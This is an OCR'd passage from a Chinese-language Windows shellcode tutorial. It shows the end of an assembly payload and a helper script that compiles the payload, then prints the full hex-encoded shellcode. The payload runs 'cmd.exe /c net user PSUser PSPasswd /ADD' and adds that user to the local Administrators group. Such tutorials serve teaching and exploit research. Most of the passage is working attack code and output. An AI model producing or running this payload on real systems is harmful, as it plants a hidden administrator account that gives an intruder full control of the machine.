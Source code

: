 ```
    xor eax,eax ;zero the register again, clears winexec retval
    push eax ;push null onto stack as empty parameter value
call [ebp+8] ;call ExitProcess(0);
GetCommand:
    call CommandReturn
    db "cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser"
    db 0x00
+--------------- End adduser-dynamic.asm --------------+

```

编译汇编代码

在前面的教程中,我们可以手动地用nasm编译汇编代码来完成每一个步骤,使用xxd和xxd-shellcode.sh来去除未经修改的shellcode,把未经修改的shellcode插入到shellcodetest.c中,然后用gcc编译这个测试程序.每次要完成对shellcode作出略微的更改是有点难度的.

因为这个原因,我已经创建了”shellcode-compiler.sh”,它可以为你做所有这些步骤！你应该已经在教程1中下载了这个脚本,和任意其它必须的脚本和程序.这个程序的用法如下所示：

```
$ ./shellcode-compiler.sh
      Usage: ./shellcode-compiler.sh filename.asm
      Eg, ./shellcode-compiler.sh shellcode.asm

```

把汇编文件作为一个输入到编译器的文件,同时创建”filename.shellcode”形式的Cygwin环境下的可执行文件.这个教程的汇编文件可以使用如下命令编译,并输出如下所示

> $ ./shellcode-compiler.sh adduser-dynamic.asm

把 adduser-dynamic.asm 编译成 adduser-dynamic.bin

[nasm -f bin -o adduser-dynamic.bin adduser-dynamic.asm]

把adduser-dynamic.bin 转换成 adduser-dynamic.shellcode

```
[./xxd-shellcode.sh adduser-dynamic.asm]
    \xe9\x9b\x00\x00\x00\x56\x31\xc0\x64\x8b\x40\x30\x85\xc0\x78\x0f\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40\x08\xe9\x09\x00\x00\x00\x8b\x40\x34\x8d\x40\x7c\x8b\x40\x3c\x5e\xc3\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x05\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xad\x50\x52\xe8\xaa\xff\xff\xff\x89\x07\x81\xc4\x08\x00\x00\x00\x81\xc7\x04\x00\x00\x00\x39\xce\x75\xe6\xc3\xe8\x19\x00\x00\x00\x98\xfe\x8a\x0e\x7e\xd8\xe2\x73\x81\xec\x08\x00\x00\x00\x89\xe5\xe8\x58\xff\xff\xff\x89\xc2\xeb\xe2\x5e\x8d\x7d\x04\x89\xf1\x81\xc1\x08\x00\x00\x00\xe8\xb6\xff\xff\xff\xeb\x0e\x5b\x31\xc0\x50\x53\xff\x55\x04\x31\xc0\x50\xff\x55\x08\xe8\xed\xff\xff\xff\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x50\x53\x55\x73\x65\x72\x20\x50\x53\x50\x61\x73\x73\x77\x64\x20\x2f\x41\x44\x44\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x2f\x41\x44\x44\x20\x50\x53\x55\x73\x65\x72

```

创建 adduser-dynamic.shellcodetest.c

把adduser-dynamic.shellcodetest.c编译成adduser-dynamic.shellcodetest.c

